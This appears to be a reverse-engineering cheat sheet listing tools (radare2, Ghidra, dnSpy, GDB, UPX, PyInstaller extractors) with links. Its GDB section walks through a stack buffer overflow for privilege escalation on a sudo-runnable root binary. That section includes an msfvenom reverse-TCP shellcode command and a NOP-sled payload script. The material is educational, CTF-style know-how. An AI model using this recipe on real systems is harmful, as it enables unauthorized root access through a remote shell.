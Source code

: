 # Reverse Engineering
Everything that you need for about RE

# Radare2 (R2)
Manipulate binaries easily    
You can use R2 to overwrite parts of the assembly code so one part doesn't get called or gets redirected.

## Help
- [https://github.com/radareorg/radare2/blob/master/doc/intro.md](https://github.com/radareorg/radare2/blob/master/doc/intro.md)
- [https://man.archlinux.org/man/radare2.1.en](https://man.archlinux.org/man/radare2.1.en)


# Ghidra
Open source reverse engineering software developed by NSA

## Help
- [https://github.com/NationalSecurityAgency/ghidra](https://github.com/NationalSecurityAgency/ghidra)
- [https://ghidra-sre.org/CheatSheet.html](https://ghidra-sre.org/CheatSheet.html)



# dnSpy
Used for disassembling .NET code

## Github
[https://github.com/dnSpy/dnSpy](https://github.com/dnSpy/dnSpy)



# GDB
GNU Debugger helps with debugging.    
When looking through a binary one might want to perfrom a buffer overflow attack, for which GDB is perfect.

## peda
Python Exploit Development Assistance for GDB

### Links
- [https://github.com/longld/peda](https://github.com/longld/peda)

## Basic buffer overflow
**This could be used if a binary is owned by root, but current user can run it with sudo**    
1. Start gdb with your desired binary
    ```bash
    $ gdb <bin>
    ```
2. Set breakpoint (usually main)
    ```
    (gdb) break <function / offset>
    ```
3. Generate a payload    
    *If the payload is not long / short enough you can always change the size*
    ```bash
    $ python -c 'print("A"*100)'
    ```
4. Run the binary in gdb and enter your payload
    ```
    (gdb) r
    
    Enter string: AAAAAAA...
    ```
    *If the program breaks, it's vulnerable to buffer overflow*
5. Finding the right size      
    Here what I personally like to do is to,reduce the length of the payload by half and if it breaks again repeat the steps.    
    If the program doesn't break, you found a shorter length than the input. Here one can go by increments of 1s or 5s     
    as they like and when the program breaks on a specific length they found the desired length.    
    You can see if the payload is loaded into the EIP register upon running `info registers` in gdb.
    1. If the payload is one less than the right size, the register will have one random HEX char at the end
    ```
    (gdb) info registers
    [snip]
    eip     <0x616162> 
    [snip]
    ```
    In the above code `62` is the random char. So, however long was the payload above, we need to add one more charcter to it.     
    For simplicity's sake let's say that the correct size was `512`.

6. Making the actual payload
    1. Finding the EIP address    
        Because the EIP has been overwritten, we don't know the return value of main.     
        So, now input the same payload into the program but take away the last four characters `AAAB` or `616162`.    
        After doing that one will see the return address of the EIP after running `info reg eip` in gdb.
    2. Make a shell code
        ```bash
        msfvenom --payload linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> --format py --bad-chars '\x00\x09\x20\x0a\xff' 
        ``` 
        The command above will give you a shell code to spawn a reverse tcp shell.    
        I didn't run the command so, I am going to assume its length so, let's make it `150` bytes long.      
        **OR**    
        Get a shellcode from here: [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html) 
    3. Assemble the payload in Python     
        **Keep in mind that most system are storing data in little endian**    
        *This means that all addresses and bytes have to be reversed*
        ```python
        #!/usr/bin/python3

        # Sizes
        BUFFER      = 512
        SHELLCODE_L = 150
        RET_L       = 4
        NOP_L       = BUFFER - SHELLCODE_L - RET_L

        # Bytes
        SHELLCODE = b"YOUR SHELLCODE HERE"   # Reverse if little endian
        RET_ADDY  = b"YOUR RETURN ADDRESS"   # Reverse if little endian
        NOP_SLED  = b"\x90" * NOP_L

        print(NOP_SLED + SHELLCODE + RET_ADDY)
        ```
7. Running the program with the payload
    ```
    (gdb) r

    Enter string: <payload-here>
    ```

Hopefully this should spawn the attacker a reverse shell.

### References
- **Best help**    [**https://samsclass.info/127/proj/p3-lbuf1.htm**](https://samsclass.info/127/proj/p3-lbuf1.htm)
- [https://www.cyberpunk.rs/buffer-overflow-linux-gdb](https://www.cyberpunk.rs/buffer-overflow-linux-gdb)
- [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html)


# UPX
If a binary is packed with `upx` use this to unpack it:
```bash
upx -d <binary>
```


# PyInstaller packed binaries
Python files can be packed and unpacked to and from a binary.    
Use the links below to unpack said binaries.    

After unpacking the binary, use [uncompyle6](https://pypi.org/project/uncompyle6/) to decompile `.pyc` files gotten from the unpacking process.

## The extractor
[https://github.com/extremecoders-re/pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)

### Help
[https://www.fortinet.com/blog/threat-research/unpacking-python-executables-windows-linux](https://www.fortinet.com/blog/threat-research/unpacking-python-executables-windows-linux)